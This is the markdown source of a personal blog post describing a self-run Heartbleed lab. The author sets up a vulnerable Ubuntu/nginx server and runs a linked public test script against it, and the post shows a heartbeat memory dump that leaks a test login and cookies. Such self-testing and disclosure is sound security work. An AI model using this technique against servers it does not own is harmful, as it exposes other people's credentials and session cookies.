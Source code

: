```yaml
---
layout: post
title: Heartbleed
category: posts
image: heartbleed/header.png
---
```


The [Heartbleed Bug](http://heartbleed.com/) is a huge deal. It allows anyone to read the RAM of a vulnerable system, exposing user sessions, cookies, passwords, etc. I setup a fresh new ec2 instance and installed nginx with the intent of exploring and testing the heartbleed bug.

The first thing I did was check which version of OpenSSL I was running. Turns out Ubuntu 12.04 comes with a vulnerable version:

{% highlight bash %}
$ openssl version -a
OpenSSL 1.0.1 14 Mar 2012
built on: Wed Jan  8 20:45:51 UTC 2014
platform: debian-amd64
options:  bn(64,64) rc4(16x,int) des(idx,cisc,16,int) blowfish(idx)
compiler: cc -fPIC -DOPENSSL_PIC -DZLIB -DOPENSSL_THREADS -D_REENTRANT -DDSO_DLFCN -DHAVE_DLFCN_H -m64 -DL_ENDIAN -DTERMIO -g -O2 -fstack-protector --param=ssp-buffer-size=4 -Wformat -Wformat-security -Werror=format-security -D_FORTIFY_SOURCE=2 -Wl,-Bsymbolic-functions -Wl,-z,relro -Wa,--noexecstack -Wall -DOPENSSL_NO_TLS1_2_CLIENT -DOPENSSL_MAX_TLS1_2_CIPHER_LENGTH=50 -DMD32_REG_T=int -DOPENSSL_IA32_SSE2 -DOPENSSL_BN_ASM_MONT -DOPENSSL_BN_ASM_MONT5 -DOPENSSL_BN_ASM_GF2m -DSHA1_ASM -DSHA256_ASM -DSHA512_ASM -DMD5_ASM -DAES_ASM -DVPAES_ASM -DBSAES_ASM -DWHIRLPOOL_ASM -DGHASH_ASM
OPENSSLDIR: "/usr/lib/ssl"
{% endhighlight %}

Next I installed nginx and self-signed my own cert:

{% highlight bash %}
$ sudo apt-get install nginx
$ sudo mkdir -p /etc/nginx/ssl/keys
$ cd /etc/nginx/ssl/keys
$ openssl genrsa -des3 -out self-ssl.key 1024
$ openssl req -new -key self-ssl.key -out self-ssl.csr
$ openssl x509 -req -days 365 -in self-ssl.csr -signkey self-ssl.key -out self-ssl.crt
{% endhighlight %}

Then I configured nginx:

{% highlight bash %}
$ sudo vim /etc/nginx/sites-enabled/default

server {
  listen 443;
  server_name heartbleed;

  root /usr/share/nginx/www;
  index index.html index.htm;

  ## SSL
  ssl on;
  ssl_certificate /etc/nginx/ssl/keys/self-ssl.crt;
  ssl_certificate_key /etc/nginx/ssl/keys/self-ssl.key;

  ## SSL caching/optimization
  ssl_protocols        SSLv3 TLSv1 TLSv1.1 TLSv1.2;
  ssl_ciphers RC4:HIGH:!aNULL:!MD5;
  ssl_prefer_server_ciphers on;
  keepalive_timeout    60;
  ssl_session_cache    shared:SSL:10m;
  ssl_session_timeout  10m;

  ## SSL log files
  access_log /var/log/nginx/heartbleed/ssl_access.log;
  error_log /var/log/nginx/heartbleed/ssl_error.log;

  location / {
    proxy_set_header        Accept-Encoding   "";
    proxy_set_header        Host              $http_host;
    proxy_set_header        X-Forwarded-By    $server_addr:$server_port;
    proxy_set_header        X-Forwarded-For   $remote_addr;
    proxy_set_header        X-Forwarded-Proto $scheme;
    proxy_set_header        X-Real-IP         $remote_addr;
    proxy_next_upstream error timeout invalid_header http_500 http_502 http_503 http_504;
  }
}

{% endhighlight %}

I made a dummy html page with a form for submitting username/password. I also added a bit of javascript that set a cookie as well. 

{% highlight html %}
<form name="input" action="index.html" method="get">
  Username: <input type="text" name="username"> <br />
  Password: <input type="password" name="password"> <br />
  <input type="submit" value="Submit">
</form>

<script>
  document.cookie="heartbleed='Hi friends!'";
</script>
{% endhighlight %}

Then I ran [this script](https://gist.github.com/akenn/10159084) (the one mentioned in [this article](https://www.mattslifebytes.com/?p=533)) against myself. 

The dump had the most recent request in it including all cookies:

{% highlight bash %}
❯ python hb-test.py heartbleed.akenn.org

Connecting...
Sending Client Hello...
Waiting for Server Hello...
 ... received message: type = 22, ver = 0302, length = 66
 ... received message: type = 22, ver = 0302, length = 549
 ... received message: type = 22, ver = 0302, length = 203
 ... received message: type = 22, ver = 0302, length = 4
Sending heartbeat request...
 ... received message: type = 24, ver = 0302, length = 16384
Received heartbeat response:
  0000: 02 40 00 D8 03 02 53 43 5B 90 9D 9B 72 0B BC 0C  .@....SC[...r...
  0010: BC 2B 92 A8 48 97 CF BD 39 04 CC 16 0A 85 03 90  .+..H...9.......
  0020: 9F 77 04 33 D4 DE 00 00 66 C0 14 C0 0A C0 22 C0  .w.3....f.....".
  0030: 21 00 39 00 38 00 88 00 87 C0 0F C0 05 00 35 00  !.9.8.........5.
  0040: 84 C0 12 C0 08 C0 1C C0 1B 00 16 00 13 C0 0D C0  ................
  0050: 03 00 0A C0 13 C0 09 C0 1F C0 1E 00 33 00 32 00  ............3.2.
  0060: 9A 00 99 00 45 00 44 C0 0E C0 04 00 2F 00 96 00  ....E.D...../...
  0070: 41 C0 11 C0 07 C0 0C C0 02 00 05 00 04 00 15 00  A...............
  0080: 12 00 09 00 14 00 11 00 08 00 06 00 03 00 FF 01  ................
  0090: 00 00 49 00 0B 00 04 03 00 01 02 00 0A 00 34 00  ..I...........4.
  00a0: 32 00 0E 00 0D 00 19 00 0B 00 0C 00 18 00 09 00  2...............
  00b0: 0A 00 16 00 17 00 08 00 06 00 07 00 14 00 15 00  ................
  00c0: 04 00 05 00 12 00 13 00 01 00 02 00 03 00 0F 00  ................
  00d0: 10 00 11 00 23 00 00 00 0F 00 01 01 12 00 10 04  ....#...........
  00e0: 01 05 01 02 01 04 03 05 03 02 03 04 02 02 02 00  ................
  00f0: 12 00 00 5F 39 5F 32 29 20 41 70 70 6C 65 57 65  ..._9_2) AppleWe
  0100: 62 4B 69 74 2F 35 33 37 2E 33 36 20 28 4B 48 54  bKit/537.36 (KHT
  0110: 4D 4C 2C 20 6C 69 6B 65 20 47 65 63 6B 6F 29 20  ML, like Gecko) 
  0120: 43 68 72 6F 6D 65 2F 33 33 2E 30 2E 31 37 35 30  Chrome/33.0.1750
  0130: 2E 31 35 32 20 53 61 66 61 72 69 2F 35 33 37 2E  .152 Safari/537.
  0140: 33 36 0D 0A 52 65 66 65 72 65 72 3A 20 68 74 74  36..Referer: htt
  0150: 70 73 3A 2F 2F 68 65 61 72 74 62 6C 65 65 64 2E  ps://heartbleed.
  0160: 61 6B 65 6E 6E 2E 6F 72 67 2F 69 6E 64 65 78 2E  akenn.org/index.
  0170: 68 74 6D 6C 3F 75 73 65 72 6E 61 6D 65 3D 74 65  html?username=te
  0180: 73 74 26 70 61 73 73 77 6F 72 64 3D 61 64 73 66  st&password=adsf
  0190: 0D 0A 41 63 63 65 70 74 2D 45 6E 63 6F 64 69 6E  ..Accept-Encodin
  01a0: 67 3A 20 67 7A 69 70 2C 64 65 66 6C 61 74 65 2C  g: gzip,deflate,
  01b0: 73 64 63 68 0D 0A 41 63 63 65 70 74 2D 4C 61 6E  sdch..Accept-Lan
  01c0: 67 75 61 67 65 3A 20 65 6E 2D 55 53 2C 65 6E 3B  guage: en-US,en;
  01d0: 71 3D 30 2E 38 0D 0A 43 6F 6F 6B 69 65 3A 20 75  q=0.8..Cookie: u
  01e0: 73 65 72 6E 61 6D 65 3D 4A 6F 68 6E 20 44 6F 65  sername=John Doe
  01f0: 3B 20 68 65 61 72 74 62 6C 65 65 64 3D 27 48 69  ; heartbleed='Hi
  0200: 20 66 72 69 65 6E 64 73 21 27 0D 0A 0D 0A 1E 25   friends!'.....%
  0210: 49 D9 60 31 25 9C EA 14 2A 2F E4 86 82 B1 56 0A  I.`1%...*/....V.
  0220: 53 16 CB D3 B6 C4 00 00 00 00 00 00 00 00 00 00  S...............
  0230: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0240: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0250: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................
  0260: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00  ................

.....

WARNING: server returned more data than it should - server is vulnerable!
{% endhighlight %}

As you can see, my most recent request (a `GET` request to the same url with username and password as params) has the cookies I passed along in the request in there. Now imagine doing that to a much larger site and getting someone's sessionID or some equivalent.

This is a really, really scary bug. Make sure your version of OpenSSL is patched! More at: http://heartbleed.com/
